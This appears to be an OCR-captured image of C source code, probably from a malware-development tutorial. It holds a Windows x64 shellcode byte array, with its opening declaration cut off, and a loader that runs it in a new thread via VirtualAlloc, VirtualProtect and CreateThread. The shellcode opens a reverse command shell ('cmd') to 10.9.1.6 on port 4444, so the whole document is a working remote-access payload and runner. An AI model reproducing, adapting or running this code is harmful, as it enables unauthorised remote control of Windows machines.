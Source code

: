 ```cpp
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```
